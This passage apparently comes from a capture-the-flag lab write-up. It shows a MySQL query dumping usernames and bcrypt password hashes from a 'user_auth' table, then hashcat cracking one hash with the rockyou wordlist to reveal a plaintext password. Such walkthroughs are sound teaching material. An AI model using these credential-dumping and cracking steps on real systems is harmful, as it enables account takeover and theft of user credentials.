 ```
| tinyint(3) unsigned   | login_opts             |
| tinyint(3) unsigned   | policy_graphs          |
| tinyint(3) unsigned   | policy_trees           |
| tinyint(3) unsigned   | policy_hosts           |
| tinyint(3) unsigned   | policy_graph_templates |
| char(2)               | enabled                |
| int(11)               | lastchange             |
| int(11)               | lastlogin              |
| varchar(4096)         | password_history       |
| varchar(3)            | locked                 |
| int(5)                | failed_attempts        |
| int(10) unsigned      | lastfail               |
| int(10) unsigned      | reset_perms            |
+-----------------------+------------------------+
<SNIP>
```

Okay, so this table contains 25 columns.

#### `user_auth`'s columns content

Let's retrieve the content of the `username` and `password` columns.

```sh
MySQL [(none)]> SELECT username, password FROM user_auth;
```

```
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |
| guest    | 43e9a4ab75570f5b                                             |
| marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |
+----------+--------------------------------------------------------------+
<SNIP>
```

We find two hashes: one for `admin` and one for `marcus`.

I'll place them on my machine in `/workspaces/mysql.hash`.

#### Hash cracking

Let's try to crack these hashes using `hashcat` with the `rockyou.txt` wordlist.

```sh
❯ hashcat -m "3200" "/workspace/mysql.hash" -a "0" "/usr/share/wordlists/rockyou.txt"
```

```
<SNIP>
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
<SNIP>
```

`marcus`' hash corresponds to the `funkymonkey` password!
